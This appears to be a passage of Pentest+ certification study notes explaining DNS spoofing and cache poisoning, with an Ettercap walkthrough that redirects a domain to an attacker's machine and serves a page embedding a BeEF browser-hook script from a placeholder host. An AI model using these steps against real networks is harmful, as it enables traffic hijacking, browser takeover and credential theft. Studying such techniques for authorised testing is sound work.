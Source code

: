 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

### 1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

### 2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

### 3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

### 4) Launch BeEf
````
beef-xss
````

### 5) Launch Ettercap
````
ettercap -G
````
* "Sniffing at startup" should be selected automatically.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/5_ettercap.png)

### 6) Select the checkmark in the upper right corner to start sniffing

### 7) List the hosts Ettercap has discovered
* Select the vertical elipses in the upper right hand corner.
* Select Hosts > Hosts list
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/7_list_hosts.png)
